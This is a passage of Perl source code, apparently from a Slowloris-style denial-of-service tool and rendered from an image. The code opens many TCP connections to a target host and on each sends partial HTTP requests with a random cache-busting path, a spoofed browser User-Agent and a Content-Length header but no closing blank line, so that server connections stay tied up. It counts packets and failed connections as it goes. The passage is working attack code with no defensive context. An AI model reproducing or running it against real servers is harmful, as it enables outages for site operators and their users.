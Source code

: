 ```
                            Proto    => "tcp",
                        )
                      )
                    {
                        $working[$z] = 1;
                    }
                    else {
                        $working[$z] = 0;
                    }
                }
                else {
                    if (
                        $sock[$z] = new IO::Socket::INET(
                            PeerAddr => "$host",
                            PeerPort => "$port",
                            Timeout  => "$tcpto",
                            Proto    => "tcp",
                        )
                      )
                    {
                        $working[$z] = 1;
                        $packetcount = $packetcount + 3;  #SYN, SYN+ACK, ACK
                    }
                    else {
                        $working[$z] = 0;
                    }
                }
                if ( $working[$z] == 1 ) {
                    if ($cache) {
                        $rand = "?" . int( rand(99999999999999) );
                    }
                    else {
                        $rand = "";
                    }
                    my $primarypayload =
                        "$method /$rand HTTP/1.1\r\n"
                      . "Host: $sendhost\r\n"
                      . "User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.503l3; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; MSOffice 12)\r\n"
                      . "Content-Length: 42\r\n";
                    my $handle = $sock[$z];
                    if ($handle) {
                        print $handle "$primarypayload";
                        if ( $SIG{__WARN__} ) {
                            $working[$z] = 0;
                            close $handle;
                            $failed++;
                            $failedconnections++;
                        }
                        else {
                            $packetcount++;
                            $working[$z] = 1;
                        }
                    }
                    else {
                        $working[$z] = 0;
                        $failed++;
                        $failedconnections++;
                    }
                }
                else {
                    $working[$z] = 0;
```